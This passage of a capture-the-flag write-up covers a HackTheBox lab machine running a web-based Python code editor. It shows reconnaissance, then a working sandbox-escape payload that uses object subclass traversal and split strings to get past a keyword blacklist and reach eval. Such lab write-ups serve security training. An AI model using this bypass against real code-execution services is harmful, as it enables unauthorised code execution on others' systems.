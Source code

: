 ![Capture d'écran 2025-04-26 120423](https://github.com/user-attachments/assets/96f5a096-4443-4595-9354-08f4b1f0f21e)

The results identified key technologies used by the application :

- **Web Server**: Gunicorn version 20.0.4, indicating a Python-based backend.
    
- **Frontend Technologies**: HTML5 and jQuery 3.6.0.
    
- **Page Title**: "Python Code Editor", suggesting that the application may allow users to interact with or execute Python code dynamically.

These details pointed toward a potentially vulnerable functionality involving code execution, and guided the next phase of testing.

Let's check the web page at `http://code.htb:5000` : 

![Capture d'écran 2025-04-26 120858](https://github.com/user-attachments/assets/8259455a-0076-4e3f-9fb9-55e98dd13445)

We can see that we can run Python code. And I first tried to execute the following code : 

```python
import subprocess

result = subprocess.run(["whoami"], capture_output=True, text=True)

print(result.stdout.strip())

```

During the initial attempts, the system triggered a code validation mechanism, effectively blocking our payload :

![Capture d'écran 2025-04-26 130559](https://github.com/user-attachments/assets/6039cbeb-2a19-4c7a-82bf-b4401037181d)

Based on this behavior, we inferred the presence of a keyword blacklist, likely filtering dangerous terms such as `import`, `eval`, `exec` or `open`.

To bypass this restriction, our strategy was to perform an **object traversal attack**.  
Instead of writing forbidden keywords directly, we leveraged Python’s introspection features to dynamically retrieve the `eval` function from the runtime environment.
We used the following code snippet to enumerate the subclasses of the base `object` class, attempting to locate a reference to `eval` through the `__globals__` attribute :

```python
for i in range(100):
    try:
        x = ''.__class__.__bases__[0].__subclasses__()[i].__init__.__globals__['__buil'+'tins__']
        if 'ev'+'al' in x:
            print(x['ev'+'al']("2+2"))
            break
    except Exception as e:
        continue
```

![Capture d'écran 2025-04-26 135909](https://github.com/user-attachments/assets/e0a863cd-e0c0-4828-a411-481914c1e55e)

> As shown, the payload successfully executed and evaluated the expression `2+2`.
